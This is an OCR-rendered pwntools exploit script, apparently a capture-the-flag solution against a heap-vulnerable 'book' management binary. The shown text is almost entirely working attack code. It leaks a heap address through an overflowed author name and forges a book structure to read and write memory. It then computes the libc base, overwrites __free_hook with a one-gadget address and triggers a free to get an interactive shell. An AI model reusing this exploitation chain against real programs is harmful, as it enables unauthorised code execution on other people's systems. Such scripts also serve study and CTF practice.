 ```python
    r.sendline(name)
    log.info('change author')

create_author(b'a' * 32)
create_book(b'64', b'book1', b'32', b'book1 description')
create_book(b'135168', b'book2', b'135168', b'book2 description')

book_id_1, book_name_1, book_description_1, book_author_1 = print_book(1)
book1_addr = u64(book_author_1[32:32+6].ljust(8, b'\x00'))
log.success('book1 address: ' + hex(book1_addr))

payload = p64(1) + p64(book1_addr + 0x38) + p64(book1_addr + 0x40) + p64(0xffff)
edit_book(b'1', payload)
change_author(b'a' * 32)

book_id_1, book_name_1, book_description_1, book_author_1 = print_book(1)
book2_name = u64(book_name_1.ljust(8, b'\x00'))
book2_description = u64(book_description_1.ljust(8, b'\x00'))
log.success('book2 name address: ' + hex(book2_name))
log.success('book2 description address: ' + hex(book2_description))

libc_base = book2_description + 0x43FF0
log.success('libc base: ' + hex(libc_base))

free_hook = libc_base + libc.symbols['__free_hook']
onegadget = libc_base + 0xE3B04
edit_book(b'1', p64(free_hook))
edit_book(b'2', p64(onegadget))
gdb.attach(r)
delete_book(b'2')

r.interactive()
```